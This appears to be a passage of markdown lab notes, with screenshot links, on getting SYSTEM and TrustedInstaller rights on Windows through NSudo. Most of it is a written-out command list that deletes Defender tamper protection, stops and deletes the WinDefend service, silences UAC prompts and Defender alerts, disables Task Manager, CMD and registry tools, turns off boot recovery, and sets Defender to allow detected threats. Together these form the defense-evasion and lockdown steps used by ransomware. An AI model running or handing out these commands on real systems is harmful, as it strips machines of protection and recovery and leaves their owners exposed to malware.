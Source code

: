 ![](Pasted%20image%2020221123130723.png)

3. System Shell

![](Pasted%20image%2020221123134959.png)

![](Pasted%20image%2020221123135525.png)

After adding rights for FullControl for student501 it still dosent work: 

![](Pasted%20image%2020221123140052.png)

NSudo can be used to to run Command Prompt with TrustedInstaller, enable all privileges and the default Integrity Level.

![](Pasted%20image%2020221123144401.png)

`.\NSudoLC.exe -U:T -ShowWindowMode:Hide reg delete "HKLM\SOFTWARE\Microsoft\Windows Defender\Features" /v TamperProtection /f`

![](Pasted%20image%2020221123144136.png)

Commands:

```
icacls "C:\Windows\System32\smartscreen.exe" /inheritance:r /remove *S-1-5-32-544 *S-1-5-11 *S-1-5-32-545 *S-1-5-18

reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "ConsentPromptBehaviorAdmin" /t REG_DWORD /d "0" /f

reg add "HKLM\Software\Policies\Microsoft\Windows Defender\UX Configuration" /v "Notification_Suppress" /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "DisableTaskMgr" /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "DisableCMD" /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "DisableRegistryTools" /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v "NoRun" /t REG_DWORD /d "1" /f

sc stop windefend

sc delete windefend

bcdedit /set {default} recoveryenabled No

bcdedit /set {default} bootstatuspolicy ignoreallfailures

powershell.exe -command "Set-MpPreference -EnableControlledFolderAccess Disabled"

powershell.exe -command "Set-MpPreference -PUAProtection disable"

powershell.exe -command "Set-MpPreference -HighThreatDefaultAction 6 -Force"

powershell.exe -command "Set-MpPreference -ModerateThreatDefaultAction 6"

powershell.exe -command "Set-MpPreference -LowThreatDefaultAction 6"

powershell.exe -command "Set-MpPreference -SevereThreatDefaultAction 6"
```
